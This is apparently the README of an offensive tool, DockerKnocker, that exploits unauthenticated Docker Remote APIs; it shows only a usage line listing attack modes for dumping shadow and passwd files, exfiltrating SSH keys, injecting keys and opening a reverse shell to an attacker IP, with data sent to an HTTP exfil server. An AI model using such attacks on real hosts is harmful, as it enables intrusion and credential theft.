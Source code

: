 # DockerKnocker
Exploits Unauth Docker API (Docker Remote API Detection)


```
usage: exploit.py [-h] --target TARGET --attack {dump-shadow,dump-passwd,exfil-ssh,inject-key,reverse-shell} [--user USER] [--pubkey PUBKEY] [--listen-port LISTEN_PORT] [--reverse-port REVERSE_PORT] [--attacker-ip ATTACKER_IP]
exploit.py: error: the following arguments are required: --target, --attack

```


This exfiltrates data out of band to an HTTP exfil server.
